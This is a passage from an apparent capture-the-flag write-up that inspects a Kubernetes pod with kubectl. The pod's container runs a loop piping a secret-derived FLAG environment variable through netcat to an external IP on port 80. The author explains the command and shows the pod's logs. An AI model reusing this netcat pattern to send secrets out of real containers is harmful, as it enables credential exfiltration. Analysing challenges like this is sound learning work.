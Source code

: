 ```bash
  container:
    Container ID: containerd://05b8e3131370a1455576997d3a8c0a1be616585bc0787cd48beefd717f90fda0
    Image: busybox
    Image ID: docker.io/library/busybox@sha256:ba76950ac9eaa407512c9d859cea48114eeff8a6f12ebaa5d32ce79d4a017dd8
    Port: <none>
    Host Port: <none>
    Command: sh
    Args:
      -c
      while true; do echo $FLAG | nc 1.1.1.1 80 || continue; echo 'Flag Send'; sleep 10; done
    State: Running
    Started: Thu, 28 Dec 2023 19:05:28 +0100
    Ready: True
    Restart Count: 0
    Environment:
      FLAG: <set to the key 'flag' in secret 'flag'>
      Optional: false
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-k9x5x (ro)
Conditions:
  Type Status
  Initialized True
  Ready True
  ContainersReady True
  PodScheduled True
Volumes:
  kube-api-access-k9x5x:
    Type: Projected (a volume that contains injected data from multiple sources)
    TokenExpirationSeconds: 3607
    ConfigMapName: kube-root-ca.crt
    ConfigMapOptional: <nil>
DownwardAPI: true
QoS Class: BestEffort
Node-Selectors: <none>
--
Normal Created 2m38s kubelet Created container container
Normal Started 2m38s kubelet Started container container
```

So, what does this pod do?
As we can see from its command, it basically reads a flag it gets from an environment variable (which is mounted via a secret) and sends it via netcat to `1.1.1.1`.

Lets take a look what the container currently outputs:

```bash
~/D/congress_ctf > kubectl --kubeconfig kubeconfig -n flag-sender logs pods/flag-sender-676776d678-9wjgr
HTTP/1.1 400 Bad Request
Server: cloudflare
Date: Thu, 28 Dec 2023 18:05:28 GMT
Content-Type: text/html
Content-Length: 155
Connection: close
CF-RAY: -

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>cloudflare</center>
</body>
</html>
```